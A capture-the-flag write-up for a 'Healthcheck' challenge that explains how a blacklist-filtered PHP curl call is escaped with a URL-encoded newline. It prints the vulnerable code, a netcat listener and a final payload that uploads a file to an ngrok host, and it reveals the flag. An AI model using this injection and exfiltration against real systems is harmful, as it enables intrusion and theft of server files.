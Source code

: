 # Healthcheck

> I left my hopes_and_dreams on the server. can you help fetch it for me?
> 
- `index.php` – Source Code

# Solution

### Examining the Website

In this challenge, we’re given an input box where we can enter a URL through a POST request and check its response status code.

![image1](https://github.com/user-attachments/assets/0ab56dd9-26f3-4bef-be47-099f16bcecf4)

Examining the source code, we see that our input is first checked for any blacklisted characters, in which it will remove it. Afterwards, the sanitized URL is put through an explicit cURL command. From here, we can attempt to break out of the cURL command and run our own command to exfiltrate the file “hopes_and_dreams”, as mentioned in the challenge description.

```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST["url"])) {
    $url = $_POST["url"];

    $blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

    $sanitized_url = str_replace($blacklist, '', $url);

    $command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";

    $output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
}
?>
```

### Exfiltrating the File

In order to do this, we’ll set up a ngrok server and forward it to our netcat listener on port 80.W

![image2](https://github.com/user-attachments/assets/d0d19b46-ebbd-4c91-a644-dd8de5a15cad)

> %0A is used to start a new line while bypassing blacklisted character restrictions, and -F is used to specify the file we want to exfiltrate.
> 

Using Burp Suite to forward our request, we receive the file back on our netcat listener.And here, we obtain the flag:

![image3](https://github.com/user-attachments/assets/2715dfb3-66b3-4ce5-b07e-1e8f13e6765c)

```php
sudo nc -nvlp 80
```

![image4](https://github.com/user-attachments/assets/aefc158a-c3bf-4180-89ba-5308c3f7b381)

And here, we obtain the flag:

```
umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}
```

# Conclusion
This will be the final payload for the URL:

```php
url=%0Acurl -F "file=@hopes_and_dreams" https://376f-211-24-127-165.ngrok-free.app
```

This challenge involves a response code checking website that sends user input through a cURL command. By escaping the cURL command using a URL encoded new line, %0A, we can solve this challenge by exfiltrating the file through the use of a crafted request and a ngrok server. The flag is obtained when the request is forwarded to our netcat listener.
